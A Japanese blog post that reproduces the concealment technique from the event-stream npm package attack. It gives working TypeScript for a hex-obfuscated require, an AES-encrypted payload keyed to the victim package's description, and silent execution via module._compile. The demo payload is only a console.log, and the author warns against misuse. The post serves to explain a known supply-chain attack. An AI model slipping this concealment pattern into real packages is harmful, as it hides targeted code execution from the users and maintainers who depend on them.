 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、この方法を悪用しないようにお願いします。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)

# コード

https://github.com/kik4/npm-evil-code-injection

# 攻撃手順

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード（仮）
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしましょう。

## 1. 読み込みファイルの隠蔽

正常なコードを書いたファイルを index.ts、攻撃コードとは別に攻撃コードを忍ばせるファイルを evil.ts とします。
まずは index.ts から evil.ts を require します。evil() の実行が攻撃コードの実行になります。

```ts
export default () => {
  const evil = require("./evil.ts").default;
  evil();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。`./evil.ts`をエンコードすると`2E2F6576696C`になります。
これをデコード処理を入れて書き換えます。

```ts
export default () => {
  const evil = require(Buffer.from("2E2F6576696C", "hex").toString()).default;
  evil();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

## 2. 攻撃コードの暗号化

攻撃を忍ばせるコード evil.ts を用意する前に、攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。複合化時に実行しているパッケージのdescriptionを拾って与えることで、攻撃対象を限定します。

```js
var cipher = require("crypto").createCipher("aes-256-cbc", "run evil code");
var encoded =
  cipher.update('console.log("This is evil code.")', "utf8", "hex") +
  cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。

## 3. 攻撃コードを実行するコードの用意

ようやく evil.ts の用意です。この中で暗号化したコードの複合と実行を行います。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    module._compile(payload, "");
  } catch {}
};
```

# 攻撃を受けてみる

攻撃を受ける側のパッケージを用意します。上記のパッケージは公開してもしょうがないので今回はローカルインポートにします。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードはこんな感じ。

```ts
import library from "library";

console.log("Hello world!!");
library();
```

これを実行すると出力は以下の通りです。

```
// 期待する結果
Hello world!!
This is good code.

// 実際の結果
Hello world!!
This is evil code.
This is good code.
```

description を書き換えると`This is evil code.`が出てきません。攻撃対象を絞れています。
